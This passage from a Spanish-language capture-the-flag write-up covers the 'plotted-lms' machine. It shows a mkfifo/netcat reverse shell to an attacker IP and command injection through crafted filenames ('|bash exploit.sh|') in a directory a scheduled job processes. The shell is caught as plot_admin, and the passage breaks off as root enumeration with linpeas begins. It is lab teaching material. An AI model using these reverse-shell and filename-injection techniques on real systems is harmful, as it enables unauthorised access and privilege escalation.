 Después de esto, creamos una shell reversa simple y lo copiamos en el directorio `home` del usuario, luego usamos la misma técnica para ejecutar este script como `plot_admin`.

```bash
www-data@plotted-lms://var/www/uploadedfiles/filedir$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.0.241 1338 >/tmp/f" > exploit.sh

www-data@plotted-lms://var/www/uploadedfiles/filedir$ mv exploit.sh /home/plot_admin/exploit.sh

www-data@plotted-lms://var/www/uploadedfiles/filedir$ echo "test" > '"|bash exploit.sh|"'

www-data@plotted-lms://var/www/uploadedfiles/filedir$ ls -la
total 48
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|bash exploit.sh|"'
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|chmod -R 777 .|"'
drwxrwxrwx  9 www-data www-data 4096 Apr 24 09:30  .
drwxrwxrwx 10 www-data www-data 4096 Jan 31 10:54  ..
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  0c
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  5f
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  75
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  8c
drwxrwxrwx  3 www-data www-data 4096 Apr 24 09:27  bf
drwxrwxrwx  3 www-data www-data 4096 Feb  4 07:14  d9
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  da
-rw-rw-rw-  1 www-data www-data  168 Jan 31 10:52  warning.txt
```

Después de un minuto _(otra vez)_ recibimos la conexión inversa

```bash
╰─ nc -nlvp 1338                                                                                                                                                            
listening on [any] 1338 ...
connect to [10.9.0.241] from (UNKNOWN) [10.10.93.142] 52772
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
plot_admin@plotted-lms:~$ id; whoami; pwd; cat /home/plot_admin/user.txt
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
plot_admin
/home/plot_admin
7[REDACTADO]0
```
¡Sí! ¡Lo hicimos!

Ahora vamos a rootear esta máquina 😎

## Root

Esta parte de la máquina, tomó un tiempo descifrarla, demasiado pensamiento :/

¡Pero lo dejarémos claro y directo!

Usamos `linpeas` para escanear la máquina y descubrimos lo siguiente:

`Linpeas` nos muestra que hay un script que se ejecuta demasiadas veces durante de 1 minuto:
